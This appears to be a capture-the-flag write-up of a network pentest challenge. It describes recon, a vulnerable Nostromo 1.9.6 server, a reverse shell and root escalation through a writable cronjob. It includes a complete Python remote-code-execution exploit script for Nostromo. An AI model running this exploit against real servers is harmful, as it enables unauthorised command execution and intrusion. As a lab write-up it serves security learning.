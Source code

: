 ![](https://i.ibb.co/GCRdnBj/chaldesc.png)


This challenge was in the network pentest category, they gave us an openvpn config file to connect to the network and an IP address of the target.
After doing some recon, we end up with these results.

![](https://i.ibb.co/r3FnC6F/recon.png)

Entering cgi-bin we find the printenv file:

![](https://i.ibb.co/Fhx9kvB/nostromo.png)

OOh nostromo exploit what a surprise! This version(1.9.6) is vulnerable to a RCE attack. Here is the exploit script:

```python
import socket
import argparse

parser = argparse.ArgumentParser(description='Nostromo Remote Code execution')
parser.add_argument('host',help='domain/IP of the Nostromo web server')
parser.add_argument('port',help='port number',type=int)
parser.add_argument('cmd',help='command to execute, default is id',default='id',nargs='?')
args = parser.parse_args()

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)


payload = "POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\n"
payload += "Content-Length: 1\r\n\r\necho\necho\n"
payload += "%s 2>&1" % args.cmd

print ("[+] Connecting to target")
s.connect((args.host , int(args.port)))

print("[+] Sending malicious payload")
s.sendall(payload.encode('utf-8') )


data = []

while True:
    chunk = s.recv(1024)  #blocks while waiting for data
    if chunk: data.append(chunk.decode("utf-8"))
    #If the recv() returns a blank string, then the other side
    #closed the socket, and no more data will be sent:
    else: break  

print("".join(data))
```

Here are the steps to get an initial shell and upgrading it to an interactive one. Unfortunately, webserver user doesnt have permissions to read files from root dir.

![](https://i.ibb.co/MMTfwtr/exp-beu.png)

After we got our reverse shell, we needed to do some enumeration. To do so, i set up a SimpleHttpServer with python and wget pspy and linenum.

From pspy's output, we can see a cronjob called healthchecked runned by root.

![](https://i.ibb.co/ZHfs17t/pspy.png)

And guess what, we got write permissions on it. So, that should give us the privilige escalation to root. This is how i did it:

![](https://i.ibb.co/5FqBsqX/exploit.png)

that give us a reverse shell as root. Now we just need to ```cat /root/flag.txt``` to get the flag.
